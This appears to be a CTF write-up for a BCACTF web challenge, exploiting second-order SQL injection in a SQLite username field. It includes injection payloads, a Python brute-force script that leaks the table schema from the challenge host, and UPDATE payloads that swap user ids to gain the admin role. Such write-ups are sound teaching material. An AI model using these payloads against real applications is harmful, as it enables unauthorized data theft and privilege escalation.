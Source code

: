 ```yaml
---
layout: writeup
category: BCACTF
chall_description: 
points: 150
solves: 29
tags: web
date: 2024-06-09
comments: true
---
```


## Description:
This was pretty cool challenge. It was easy to determine that the site is vulnerable to SQLi. But the difficult part was exploiting it to become admin.



## Enumeration:

Adding single " results in following error. 
![Branching](1.jpg)

After few tests I found out its using sqlite and by decoding the cookie we can leak the role table.
```sh
┌──(kali㉿kali)-[~/…/CTF/BCACTF/misc/jailbreak_last]
└─$ echo eyJkYiI6IjFjM2VhODU3ZmY4MWY2ZDAzNDE0NzZlNTNhOTEzZjU3Iiwicm9sZV90YWJsZSI6InJvbGVzXzA1YTk3NDg1ZTE4MDQ0ZDQifQ.ZmTmHg.k3RSxlmOA9a5_Pwf2ZsauCmap5M | base64 -d
{"db":"1c3ea857ff81f6d0341476e53a913f57","role_table":"roles_05a97485e18044d4"}base64: invalid input
```

Query at backend should look something like:
```js
UPDATE users
SET     name = "(User Input)"
WHERE id = 1
```


Payload to check the length of the table SCHEMA. The payload is checking if the second or condition is true or not. ( "" OR 1=1 -- ) should return in 1 as first condition is False as we keeing name empty and 1=1 is True, this will assign the username as 1. ( "" OR 1=0 -- ) But if the second condition is False then the username will become 0. I found its length to be 119.
```
" OR (SELECT LENGTH(sql) FROM sqlite_master WHERE type="table" AND name="roles_843b46a14818cf3e") > 119 --
```

Now to leak the SCHEMA, for some reason SQLMap wasnt working well with second order injection and I had to write write the following script to bruteforce.

```python
import requests, string
 
url = "http://challs.bcactf.com:31406/" 
length = 119
leak = ""
# Update the table name and cookie value
role_table = "roles_289ff29f827e6f06"
cookies = {"session": "eyJkYiI6IjBhOTQ3M2U1NGNlZTBkNjc0YzZmODdmYWQzMGI3Yzg0Iiwicm9sZV90YWJsZSI6InJvbGVzXzI4OWZmMjlmODI3ZTZmMDYifQ.ZmTs2w.Mdx1fbM32zrwR8y5cPRbm71s5XA"}
 
for index in range(0,length+1): 
    for char in string.printable:
        # schema leak Query
        payload = f'" OR "{char}"=(SELECT(SUBSTR((SELECT sql FROM sqlite_master WHERE type="table" AND name="{role_table}"),{index},1)) ) --'

        data = {"username":payload} 
        response = requests.post(url+"/set-username", data=data, cookies=cookies)
        output = response.text.split("Your username is ")[1].split(".")[0] 
        if output == "1":
            leak+=char
            print(f"@ {index} Got {char} | Leaked: {leak}  ")
            break
        
print(leak)   
```

This revealed two tables - users and role_* table. Role table has Foreign Key on Update it basically means that the users id will be stuck to roles admin on Update. This is crucial information to exploit.
```js
users: CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT NOT NULL)
role: CREATE TABLE roles_843b46a14818cf3e (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE) 
```

You can use something like following to easily leak the tables.
```
", name=(SELECT GROUP_CONCAT(admin,"|") from roles_57fd80a6ac365e90 WHERE id = 0 ) WHERE id=1 --
```


User                             Role
        
| id    | name  |               | id    | admin |
|:------|:------|               |:------|:------|
|   0   | admin |               |   0   |   1   |
|   1   | input |               |   1   |   0   |


Our user id will always remain 1 so only way to become admin is to make admin's user id 1.



## Exploitation

1. Make admin id 3
```
    admin" , id = 3 where id=0 -- 
```
2. Make user id 4 and admin id 1
```
    ", id =  CASE WHEN id=1 THEN 4 WHEN id=3 THEN 1 END  WHERE id IN (1,3,4)  --
```

    ![Branching](2.jpg)


